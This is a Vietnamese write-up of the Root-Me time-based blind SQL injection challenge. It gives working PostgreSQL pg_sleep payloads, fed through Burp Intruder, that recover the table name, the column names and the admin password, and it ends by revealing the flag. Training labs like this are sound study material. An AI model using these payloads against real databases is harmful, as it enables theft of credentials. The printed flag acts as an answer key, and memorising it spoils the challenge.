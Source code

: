 # [SQL Injection – Time-based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)

Về SQLi Time-based, đây là một loại SQLi Blind khi ta sử dụng thời gian res của req để dự đoán thông tin và BurpSuite sẽ hỗ trợ rất tốt về mảng này. Khi ta sử dụng một câu Query đúng, thời gian phản hồi sẽ chậm và ngược lại.

Trong website, ta có một tab là Memberlist, có query như sau:

*http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist&member=**\[x\]***

![](./media/image1.png)

Ở đây, ta có thể lợi dụng để thực hiện tiêm payload vào đằng sau nó và thực hiện blind. Thử blind với payload bằng nhiều version() database khác nhau:

![](./media/image2.png)

Payload: *3;select+case+when+(0=0)+then+pg\_sleep(10)+else+pg\_sleep(-1)+end--*

Payload này sẽ khiến dtb res chậm hơn với pg\_sleep() khi query đúng.

-   Server thuộc dạng Postgresql: [pg\_sleep() - pgPedia - a PostgreSQL Encyclopedia](https://pgpedia.info/p/pg_sleep.html)

Từ đó, ta sẽ sử dụng Burp Intruder để thực hiện bruteforce table\_name, column\_name như các bài SQLi đã làm.

1.  **Tìm table\_name**

Trước tiên, ta cần tìm kiếm độ dài của table:

Payload: ***3;select+case+when+((select+length(table\_name)+from+information\_schema.tables+limit+1)=\[length\])+then+pg\_sleep(10)+else+pg\_sleep(-1)+end—***

Đưa vào Intruder và bruteforce:

![](./media/image3.png)

Ở bảng kết quả, ta filter lại cột “Response Complete”. Res nào có độ lớn cao nhất thì chắc hẳn đó là payload đúng.

-   length(table\_name) == 5

Đã có table\_name, ta tiến hành bruteforce table\_name. Bỏ vào intruder:

*member=3;select+case+when+(substr((select+table\_name+from+information\_schema.tables+limit+1),**§1§**,1)=chr(**§§**))+then+pg\_sleep(10)+else+pg\_sleep(-1)+end--*

![](./media/image4.png)

Ghép lại ta được **table\_name=users**

1.  **Tìm column\_name**

Tương tự như table\_name, ta tìm length(column\_name) của cột đầu tiên:

![](./media/image5.png)

Kết quả trả về payload length(column\_name) = 2. Ta có thể dự đoán nó có thể là ‘id’. Kiểm chứng bằng Repeater:

-   Ký tự ‘i’:

![](./media/image6.png)

-   Ký tự ‘d’:

![](./media/image7.png)

-   Cả 2 response đều tốn 2,285 miliseconds (tương tự thời gian fuzz, khác với response thông thường ~ 200 – 300 milisecond) column\[0\] == id

Để tìm được column tiếp theo, ta sử dụng offset để filter lại và thực hiện tương tự, bruteforce thôi:

![](./media/image8.png)

-   length(column\[2\]) == 8

![](./media/image9.png)

-   column\_name\[1\] = username

Column\[2\], có length == 9:

![](./media/image10.png)

Bruteforce được kết quả column\_name\[2\] == firstname:

![](./media/image11.png)

Tương tự, column\[3\] có length == 8, và dễ dàng đoán được:

-   column\_name\[3\] == lastname:

![](./media/image12.png)

![](./media/image13.png)

Column\[4\] có length == 5. Suy đoán và thử được kết quả:

-   column\_name\[4\] == email

![](./media/image14.png)

![](./media/image15.png)

column\[5\] có độ dài ký tự là length == 8:

![](./media/image16.png)

Vì length ==8, ta thử kiểm chứng keyword = ‘password’ thì thấy trùng khớp:

![](./media/image17.png)

Như vậy, ta đã tìm được đúng cột password, giờ thì tìm password của admin. Admin có id=1, ta chỉ cần tìm kiếm với offset = 0 là sẽ ra.

![](./media/image18.png)

-   **length(password) == 13**

Sau hơn 1 ngày bruteforce với payload, ta được kết quả:

*member=3;select+case+when+(substr((select+password+from+users+limit+1+offset+0),**§§**,1)=chr(**§§**))+then+pg\_sleep(10)+else+pg\_sleep(-1)+end--*

![](./media/image19.png)

Ta có được chuỗi ascii password: **84 33 109 51 66 64 115 51 68 83 81 76 33**

Convert to text: **T!m3B@s3DSQL!**

![](./media/image20.png)

**Flag:** T!m3B@s3DSQL!

\- Flag:

